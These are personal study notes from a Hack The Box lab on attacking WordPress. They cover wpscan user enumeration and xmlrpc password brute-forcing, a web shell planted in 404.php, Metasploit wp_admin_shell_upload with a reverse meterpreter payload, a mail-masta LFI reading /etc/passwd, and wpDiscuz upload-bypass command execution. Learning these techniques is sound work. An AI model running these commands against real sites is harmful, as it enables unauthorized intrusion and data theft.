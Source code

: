 #Common_Applications 

---
- To enumerate users using **wpscan** we use the following command:
```bash
sudo wpscan --url {URL} --enumerate u --api-token {API_TOKEN}
```

- To bruteforce login using WordPress API after **we know the username** we use the following command:
```bash
emi2024@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U {user} -P /usr/share/wordlists/rockyou.txt --url {URL}
```

- We can also edit an uncommon page such as `404.php` to add the following:
![[Pasted image 20241102224353.png]]

- We can then exploit the above shell using the following command:
```bash
emi2024@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```


- We can also use the **wp_admin_shell_upload** module from Metasploit to upload a shell and execute it automatically as follows:
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /?p=1 
blog.inlanefreight.local
```


- One of the most vulnerable Wordpress plugins is the **mail-masta** due to discovered **unauthenticated SQL injection** and a **Local File Inclusion**, the 2nd of which is demonstrated below:
```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

- The `pl` param from the code below can be exploited as follows:
```bash
emi2024@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

## Vulnerable Plugin: wpDiscuz

- The crux of the vulnerability is a **File Upload Bypass**, which means that we can upload a **PHP** script instead of the expected jpeg file. The exploit script takes 2 parameters: `-u` for the URL and `-p` a path to a valid post:
```bash
emi2024@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

- If the above fails to launch a shell, we can execute a command also using the following:
```bash
emi2024@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Lab

- I used the following **exploit**(https://www.exploit-db.com/exploits/49967) to launch a shell.
- I couldn't execute any command in the shell but I got a hint on the location of the exploit
- Finally I ran the following command:
```bash
curl -s "http://blog.inlanefreight.local/wp-content/uploads/2024/11/ndfmekbpqgdnlvo-1730830573.9644.php?cmd=cat%20%2Fvar%2Fwww%2Fblog.inlanefreight.local%2Fflag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt"
```
**Note**: Special characters(spaces, backslashes etc ...) were not accepted so we have to **URL encode** them.